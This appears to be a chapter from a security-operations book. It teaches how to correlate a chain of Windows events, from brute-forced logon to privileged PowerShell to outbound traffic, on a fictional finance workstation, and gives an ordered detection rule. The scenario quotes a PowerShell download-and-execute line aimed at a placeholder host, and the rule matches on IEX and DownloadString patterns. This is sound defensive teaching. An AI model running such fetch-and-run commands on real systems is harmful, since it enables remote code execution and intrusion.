

# Part 20 — Correlation Thinking: Why the Chain Matters More Than Any Single Link

A SOC that alerts on every 4625 spike drowns itself in noise within a week. A SOC that never looks at 4625 at all misses the opening move of half its real incidents. Correlation thinking is the discipline that sits between those two failure modes: you don't alert on the single event, and you don't ignore it either — you hold it in memory, watch for what comes next, and let the *sequence* tell you whether you're looking at an attack or a user who forgot they changed their password last Tuesday.

This section walks one anchor chain end to end: repeated failed logons, a successful logon, privilege assignment, a suspicious process, an obfuscated PowerShell script block, and an outbound network connection. Individually, most of these events are background noise on any mid-sized estate. Chained together, in order, against the same entity, inside a tight window, they tell a story a single-event alert can never tell.

## The Anchor Scenario

**Example Corp**, internal domain `example.corp`. Workstation `WKSTN-FIN07` belongs to a finance analyst, **Dana Chen** (`d.chen`), who — like most of finance, a legacy artifact from a project three years ago nobody ever walked back — still has local administrator rights on her own laptop. RDP is reachable on that host through a VPN split-tunnel misconfiguration the SOC has flagged twice already and IT hasn't fixed.

| Time (UTC) | Event | Key fields | Entity link |
|---|---|---|---|
| 14:02:03–14:02:47 | 11x **4625** | Account Name `d.chen`, Source Network Address `198.51.100.23`, Status `0xC000006A` (bad password) | Account `d.chen`, Source IP |
| 14:02:51 | **4624** success | New Logon Account `d.chen`, Logon Type 10 (RemoteInteractive), Source Network Address `198.51.100.23`, Logon ID `0x3F82A1C` | Account `d.chen`, **Logon ID** |
| 14:02:55 | **4672** | Special privileges assigned, same Logon ID `0x3F82A1C` | Logon ID |
| 14:03:40 | **4688** | New Process Name `powershell.exe`, Creator Process `cmd.exe`, Command Line base64-encoded blob, Subject Logon ID `0x3F82A1C` | Logon ID, Process ID |
| 14:03:41 | **4104** | Script block reveals `IEX (New-Object Net.WebClient).DownloadString(...)` against `download.contoso-cdn.example` | Host, Process ID, time proximity |
| 14:03:58 | Outbound connection (Sysmon network logging / firewall / proxy) | Destination `203.0.113.44:443`, process `powershell.exe`, newly-observed domain, off-hours | Host, Process ID |

Six events. One story: valid-account brute forcing (T1110.001 Password Guessing, arguably T1110.003 if multiple accounts were targeted in parallel), a successful logon on valid domain credentials (T1078.002), a privileged token, a PowerShell-based execution chain (T1059.001) carrying obfuscated content (T1027), and an ingress tool transfer (T1105) or early command-and-control check-in (T1071) over an unfamiliar external destination.



*Figure F010 - the anchor correlation-chain example used throughout this book.*

## Why Each Additional Link Raises Confidence

**[ANALYST]** - Take each event on its own and ask "would I open a ticket on this alone?" Then watch the answer change as you add links.

- **4625 alone.** Eleven bad passwords against one account from one external IP. Could be an attacker. Could also be Dana's phone auto-retrying a cached password after a rotation, a stale RDP shortcut, a misconfigured backup agent, or a help desk tech testing a reset before it's synced. On a domain with a few thousand accounts, this pattern happens *dozens of times a day* for entirely benign reasons. Alerting on the spike alone gives you a queue full of tickets that resolve to "user reports it themselves after IT calls."
- **+ 4624 success, same account, same source IP, immediately after the failures stop.** Now you've ruled out "randomly mistyped password, gave up." Something got in on approximately try twelve. That's already a meaningfully different event than a lockout that never resolves — you want Caller Computer Name and Source Network Address confirmed as the *same* origin, not a coincidence of timing between two unrelated sessions.
- **+ 4672 on that exact Logon ID.** The session that just landed carries admin-equivalent privileges. Combined with the brute-force lead-in, this converts "someone logged on" into "someone brute-forced their way into a privileged session." A regular helpdesk-reset logon almost never needs this pairing to matter — it's the *sequence* that makes 4672 interesting here, not the event by itself (plenty of legitimate admin logons trigger 4672 all day).
- **+ 4688 for `powershell.exe` spawned from `cmd.exe`, tied to that same Logon ID, with an encoded command line.** This is where you stop thinking "suspicious login" and start thinking "active tooling." Parent-child process lineage matters: `powershell.exe` launched from `explorer.exe` because a user double-clicked a script is a different risk shape than `powershell.exe` launched from `cmd.exe` seconds after a brute-forced privileged logon, with a base64 blob in the command line.
- **+ 4104 decoding that blob into a live `DownloadString` call.** Command-line auditing frequently is not enabled, or the attacker deliberately shortens the visible command line and lets the real payload live in the script block — this is exactly the gap 4104 exists to close. Seeing the de-obfuscated content turns a hunch into a technique: obfuscated PowerShell staging a download, textbook T1027 riding on T1059.001.
- **+ outbound connection to a domain nobody in the environment has ever talked to, immediately after the script block fires.** This closes the loop. You now have intent (brute force), access (privileged logon), tooling (encoded PowerShell), and outcome (external comms). Four independent telemetry sources agreeing, in the right order, on the same entity, inside a ninety-second window.

**[STAKEHOLDER]** - A single "high volume of failed logons" alert is cheap to generate and expensive to staff, because on any real network it fires constantly for boring reasons — expired passwords, misconfigured service accounts, stale mobile mail profiles. It rarely justifies calling someone at 2am. A six-link chain that ends in a privileged session running obfuscated code and talking to an unknown external host is a different risk category entirely — that's the difference between "log an observation" and "isolate the host and start the incident bridge."

## The Weak Alert, Contrasted

If your only detection is "alert when 4625 count > 10 in 5 minutes for one account," you will catch this brute force — and also catch synced-password propagation delays, a QA script hammering a test account, and a printer with cached creds. Analysts learn fast which alerts are safe to triage lazily, and this is usually one of them. That's the actual cost of weak, single-event alerting: not that it misses attacks, but that it trains your own team to stop trusting the queue.

## Sequence-Based Detection Thinking

**[ENGINEERING]** - Correlation isn't "these things happened near each other." It's "these things happened in a causally plausible order, joined on the same entity, inside a bounded window, and each step is individually low-confidence but jointly high-confidence." Three design decisions drive that:

**1. Time windows have to match the attack's own tempo, not an arbitrary round number.** Brute force to privileged foothold to tooling to egress, in this scenario, took under two minutes. A window of 30 minutes between the 4625 spike and the 4624 success is reasonable — attackers pause, retry, get interrupted. A window of 30 minutes between the 4688 process creation and the first outbound connection is a lot more suspicious to leave that loose, because most legitimate script execution either connects immediately or not at all. Don't use one global window for a six-stage chain — each hop deserves its own tolerance.

**2. Entity pivoting is the actual join key, not "same alert queue."** The correlation glue here is the **Logon ID** linking 4624 → 4672 → 4688 (via Subject), then the **Process ID** linking 4688 → 4104 → the outbound connection, with **Source Network Address** anchoring 4625 → 4624 at the front. Miss the pivot field and you'll either merge unrelated sessions (two different admins both triggering 4672 in the same five minutes) or fail to merge the one that matters because the Logon ID rolled over between hops you didn't expect (e.g., a `runas` mid-chain, which shows up as 4648 and starts a *new* Logon ID — a common source of "the chain silently breaks here" bugs in home-grown correlation logic).

**3. Ordering must be explicit, because co-occurrence alone produces false positives you cannot tune away.** A naive rule:

```text
alert if within 10 minutes on same host:
    count(4625) > 5
    AND exists(4672)
    AND exists(4688 where process = "powershell.exe")
```

This fires just as happily if the sequence is: admin RDPs in normally (4624, 4672, legitimate PowerShell for patching), and *separately*, ten minutes earlier or later, some unrelated account fails to log on five times from a different source entirely. Co-occurrence within a window says nothing about causality. The fix is ordering plus the entity join:

```text
sequence rule "brute_force_to_privileged_powershell_to_egress":
  step1: 4625 count >= 8 within 5m, same Account Name, same Source Network Address
  step2: 4624 success, same Account Name, same Source Network Address,
         timestamp > last(step1), within 5m of last(step1)
         -> capture LogonID
  step3: 4672, LogonID == step2.LogonID, timestamp > step2, within 2m
  step4: 4688, Subject.LogonID == step2.LogonID, NewProcessName == "powershell.exe",
         timestamp > step3, within 5m
         -> capture ProcessID, ParentProcess
  step5: 4104, same host, ProcessID == step4.ProcessID (or nearest match),
         timestamp > step4, within 1m,
         ScriptBlockText matches (DownloadString|IEX|FromBase64String)
  step6: outbound connection, ProcessID == step4.ProcessID,
         destination not in known_good_domains,
         timestamp > step5, within 2m
  fire if all steps matched IN ORDER with valid pivots
```

Each step requires the *previous* step's captured entity and a forward-moving timestamp. That ordering constraint is what separates a real sequence-based detection from a co-occurrence rule wearing a sequence-shaped costume. Most SIEM and XDR platforms expose this as native sequence/correlation logic (Sigma correlation rules, Splunk's `transaction`/streaming correlation searches, Sentinel's fusion or multi-stage analytics, Elastic's EQL sequences) — the platform names differ, the requirement doesn't: capture the pivot, carry it forward, enforce order.

## Disposition Doesn't Have to Be "Confirmed Malicious"

**[MANAGEMENT]** - Not every chain like this ends in a ransomware writeup. Sometimes step 6 resolves to a sanctioned vendor update tool that a new IT contractor deployed without telling anyone (Benign Positive). Sometimes the 4688/4104 pair is a scheduled compliance script that happens to use `DownloadString` against an internal file share that just resolved oddly through split-horizon DNS (Expected Activity, closable once the change ticket is found). Sometimes command-line auditing wasn't enabled, the script block only partially decodes, and you genuinely cannot determine intent — that's Insufficient Evidence, and it should be logged as such rather than forced into a verdict the evidence doesn't support. The value of the chain isn't that it always proves compromise; it's that it gives you six independent points of evidence to weigh instead of one noisy alert to guess at. Track chain-based detections separately in your metrics from single-event alerts — mean time to close should be shorter and false-positive rate should be visibly lower, and if it isn't, the pivot fields or window sizes need re-tuning, not more alerts.
